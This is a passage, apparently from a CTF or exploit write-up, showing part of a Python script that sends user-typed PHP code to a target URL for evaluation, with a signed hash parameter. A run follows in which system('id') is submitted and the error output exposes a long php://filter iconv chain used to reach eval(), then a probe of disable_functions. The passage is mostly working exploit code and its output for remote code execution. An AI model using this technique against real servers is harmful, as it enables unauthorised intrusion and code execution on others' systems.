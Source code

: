 ```jsx
    params = {
        "hash": signature,
        "path": path,
        "0": input("code> ")
    }
    resp = requests.get(target_url, params=params, timeout=5)
    text = resp.text
    print(text)
```

running the script 

```jsx
$ python3 execute_code.py                                          
code> system('id')
<br />
<b>Parse error</b>:  syntax error, unexpected end of file in <b>php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp(1) : eval()'d code</b> on line <b>1</b><br />

code> echo ini_get('disable_functions');
```